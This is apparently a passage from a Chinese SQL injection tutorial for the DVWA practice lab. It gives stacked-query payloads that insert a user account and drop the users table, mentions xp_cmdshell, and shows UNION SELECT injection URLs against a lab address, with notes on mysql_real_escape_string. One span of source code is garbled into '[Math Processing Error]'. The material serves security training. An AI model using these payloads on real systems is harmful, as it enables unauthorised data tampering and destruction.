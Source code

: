 ``` 
插入一个用户 ‘; INSERT INTO users (‘user_id’,’first_name’,’last_name’,’user’,’password’,’avatar’) VALUES (‘35’,’fh’,’yuan’,’yfh’,’5f4dcc3b5aa765d61d8327deb882cf99’,’OK’);–+

删除一个表 ‘; DROP TABLE users; –+

xp_cmdshell / 存储过程
```

## 测试 dvwa Medium or High 安全级别

* 源代码中的 [Math Processing Error]id);
1. mysql_real_escape_string() 函数是对字符进行转义，转义的字符包括
1. \x00
1. \n
1. \r
1. \
1. ‘
1. “
1. \x1a
1. mysql_real_escape_string() 函数在 PHP5 > PHP版本 >= 4.3.0 存在
1. PHP 5.5.0 已经放弃使用此函数，PHP7已经删除此函数，代之以 MySQLi、PDO_MySQL


* 经过分析源码，发现只是过滤了单引号，因此不需要对单引号进行闭合
``` 
http://10.10.10.132/dvwa/vulnerabilities/sqli/?id=0&Submit=Submit

0 union select user(),null
http://10.10.10.132/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit
1 union select user(),null
```